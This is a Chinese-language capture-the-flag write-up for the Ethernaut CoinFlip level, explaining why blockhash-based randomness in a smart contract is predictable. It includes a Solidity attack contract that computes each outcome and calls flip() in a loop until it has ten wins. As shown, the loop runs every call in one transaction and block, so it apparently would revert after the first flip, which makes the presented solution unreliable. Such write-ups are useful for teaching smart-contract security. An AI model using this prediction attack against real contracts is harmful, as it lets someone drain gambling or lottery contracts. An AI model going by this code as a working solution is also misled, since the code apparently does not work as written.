


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 3 - CoinFlip](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

要求连续猜对十次


## 漏洞

区块链上的一切都是确定的。这意味着随机源在链上不存在(你可以使用第三方解决方案，如[Chainlink VRF](https://docs.chain.link/vrf/))。`CoinFlip` 合约中使用的随机数是伪随机的。所以我们可以用和合约中相同的逻辑来预测下一次抛硬币。完成后，我们可以使用预测值调用 `flip` 函数，并重复10次以完成任务。

## 解答

我们编写一个攻击合约，使用 与 `CoinFlip` 合约相同的逻辑，来预判 `flip` 函数的下一次参数。然后直接调用  `flip` 函数，就可以准备预测了。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;


contract Attack {
    CoinFlip instance;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address fb) payable {
        instance = CoinFlip(fb);
    }

    function attack() public {
        while (instance.consecutiveWins() < 10) {
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            instance.flip(coinFlip == 1 ? true : false);
        }
    }
}
```

## 要点

- 链上是没有随机源的，所以不要依赖链上的数据作为随机源开发功能、产品。
- 资料: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
